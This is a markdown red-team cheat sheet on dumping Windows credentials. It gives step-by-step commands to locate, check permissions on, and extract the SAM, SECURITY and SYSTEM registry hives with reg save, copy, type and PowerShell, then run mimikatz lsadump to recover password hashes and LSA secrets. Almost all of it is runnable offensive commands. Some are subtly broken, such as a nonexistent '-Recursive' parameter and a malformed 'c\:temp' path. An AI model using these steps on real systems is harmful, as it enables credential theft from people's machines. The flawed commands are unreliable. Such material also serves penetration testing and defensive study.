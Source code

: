 # Living off the Land

## 01 - Common Windows hive files locations

```
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SECURITY
C:\Windows\System32\config\SYSTEM
C:\Windows\Repair\SAM
C:\Windows\Repair\SYSTEM
```

## 02 - Search hive files

### 2.1 - Command Prompt

```
C:\> dir /s /b SECURITY

C:\> dir /s /b SYSTEM

C:\> dir /s /b SAM
```

### 2.2 - Powershell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM
```

## 03 - Enumerate hive files

### 3.1 - Command Prompt

```
C:\> icacls C:\Windows\System32\config\SECURITY
icacls C:\Windows\System32\config\SYSTEM
icacls C:\Windows\System32\config\SAM
icacls C:\Windows\Repair\SAM
icacls C:\Windows\Repair\SYSTEM
```

If it was misconfigured that the users are allowed to access `BUILTIN\Users:(I)(RX)` to those sensitive credentials files or it could be on a particular user that was configured that allows it to access when it's the admin has the privileges.

### 3.2 - Powershell

TODO: More ways to find and enumerate in powershell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM | Get-ACL
```

## 04 - Extract hive files

## 4.1 - Command Prompt

#### 4.1.1 - Extract it via registry

```
C:\> reg save hklm\security c:\temp\security
reg save hklm\system c:\temp\system
reg save hklm\sam c:\temp\sam
```

#### 4.1.2 - Copy files

```
C:\> copy C:\Windows\System32\config\SAM c:\temp\sam

C:\> copy C:\Windows\System32\config\SECURITY C:\temp\security 

C:\> copy C:\Windows\System32\config\SYSTEM c:\temp\system
```

#### 4.1.3 - Output the files' contents

```
C:\> type C:\Windows\System32\config\SAM > c:\temp\sam

C:\> type C:\Windows\System32\config\SECURITY > C:\temp\security

C:\> type C:\Windows\System32\config\SYSTEM > c:\temp\system
```

## 4.2 - Powershell

#### 4.2.2 - Copy files

```
PS C:\> Copy-Item C:\Windows\System32\config\SAM c:\temp\sam

PS C:\> Copy-Item C:\Windows\System32\config\SECURITY C:\temp\security 

PS C:\> Copy-Item C:\Windows\System32\config\SYSTEM c:\temp\system
```

#### 4.2.3 - Output the files' contents

```
PS C:\> Get-Content C:\Windows\System32\config\SAM > c:\temp\sam

PS C:\> Get-Content C:\Windows\System32\config\SECURITY > C:\temp\security

PS C:\> Get-Content C:\Windows\System32\config\SYSTEM > c:\temp\system
```

## 05 - Hashdump

### 5.1 - Dumping SAM credentials with `mimikatz`

```
mimikatz # lsadump::sam /system:c\:temp\system /sam:c:\temp\sam
```

## 06 - LSASS Secrets

### 6.1 - Dumping LSASS secrets credentials with `mimikatz`

```
mimikatz # lsadump::secrets /system:c\:temp\system /security:c:\temp\security
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

- [Red Team Notes: Dumping Hashes from SAM via Registry](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)

- [Credential Access and Credential Dumping: Dumping LSA Secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)

- [Credential Access and Credential Dumping: Dumping and Cracking MSCash Cached Domain Credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

- [Hacking Articles: Credential Dumping SAM](https://www.hackingarticles.in/credential-dumping-sam/)